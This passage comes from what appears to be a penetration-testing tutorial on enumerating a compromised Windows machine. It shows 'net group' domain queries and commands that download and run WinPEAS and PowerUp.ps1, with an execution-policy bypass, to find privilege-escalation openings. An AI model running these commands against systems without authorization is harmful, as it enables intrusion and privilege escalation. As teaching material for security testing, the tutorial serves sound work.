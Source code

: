 *Protected Users
*Read-only Domain Controllers
*Schema Admins
</code></pre>

If we want to learn more about a custom group, or just see who is a member of the group, we can also include that group name in the command:

<pre class="language-powershell"><code class="lang-powershell"><strong>PS C:\> net group "Development" /domain
</strong>
Group name     Development
Comment

Members
-------------------------------------------------------------------------------
<strong>user2
</strong></code></pre>

## Useful Commands

This section contains a set of useful commands for CMD or PowerShell that you'll often look for while enumerating a compromised machine.&#x20;

### WinPEAS / PowerUp.ps1

Before doing manual enumeration, getting an idea of the system through automated means might be quicker. The [WinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS) script is a Windows equivalent to the well-known LinPEAS script for Linux. It enumerates many common misconfigurations in the system and tries to find vulnerabilities. This generates a lot of output to sift through, but it is a very useful output that normally would require a ton of manual work.&#x20;

To run it, download the latest `winPEASany.exe` from the [Releases ](https://github.com/carlospolop/PEASS-ng/releases)page and download it from a local HTTP server if your target cannot access the public internet:

{% code title="Run WinPEAS" overflow="wrap" %}
```powershell
cd /Windows/Tasks  # world-writable directory
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/winPEASany.exe -o winPEASany.exe
.\winPEASany.exe | Tee-Object winPEAS.txt  # write output to a file (may take long)
```
{% endcode %}

Another such tool is [PowerUp.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1) which looks for more directly exploitable vulnerabilities and has commands to automatically exploit them too:

{% code title="Run PowerUp.ps1" overflow="wrap" %}
```powershell
wget https://github.com/PowerShellMafia/PowerSploit/raw/master/Privesc/PowerUp.ps1 -o PowerUp.ps1
# It is a Module, and to import it we need to disable the execution policy
powershell -ep bypass
. .\PowerUp.ps1
# Now that it is imported into the current shell, we can run its commands
Invoke-PrivescAudit
```
{% endcode %}
